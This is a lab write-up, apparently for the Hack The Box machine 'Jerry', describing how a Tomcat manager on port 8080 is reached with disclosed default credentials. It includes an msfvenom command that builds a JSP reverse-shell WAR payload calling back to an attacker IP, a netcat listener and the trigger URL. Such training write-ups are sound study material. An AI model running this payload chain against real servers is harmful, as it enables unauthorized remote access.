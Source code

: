[**< back**](/README.md)

# HTB - Jerry

![jerry_banner](/_storage/_img/_pentest_labs/_htb/jerry/jerry_banner.jpg)
**Machine**: Jerry  
**Author**: Nika Kharebava  

## Information Gathering  
### NMap  
:mag: Initial enumeration using Nmap   
![initial_nmap_scan](/_storage/_img/_pentest_labs/_htb/jerry/initial_nmap_scan.png)  
Seems like this one's serving Apache Tomcat/7.0.88 on port 8080  

### Messing around
![tomcat_discovered](/_storage/_img/_pentest_labs/_htb/jerry/tomcat_discovered.png)  
If we try to login... this happens...  
![apache_login](/_storage/_img/_pentest_labs/_htb/jerry/apache_login.png)  
Credentials get disclosed from configuration file  
![apache_login](/_storage/_img/_pentest_labs/_htb/jerry/creds_disclosed.png)
At first we can not login into the account with these creds, but if we flush cookies then we are greeted with this manager interface  
![apache_login_success](/_storage/_img/_pentest_labs/_htb/jerry/manager_app_successful_login.png)  
Where we can actually upload  
![war_file_upload](/_storage/_img/_pentest_labs/_htb/jerry/war_file_upload.png)  


## Exploitation :microbe: 

We can gain either a web shell or a reverse shell by generating it using venom as a war payload and uploading it into the manager upload page.

**msfvenom**  
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.50 LPORT=4444 -f war -o shell.war`

Now we can setup a netcat listener on an attacker machine
`nc -nlvp 4444` 
Then we can just upload the war file into manager interface and surf it on the browser...  
`http://10.129.157.182:8080/shell`  
and we have a connection with nt/authority...  
![shell_gained](/_storage/_img/_pentest_labs/_htb/jerry/shell_gained.png)

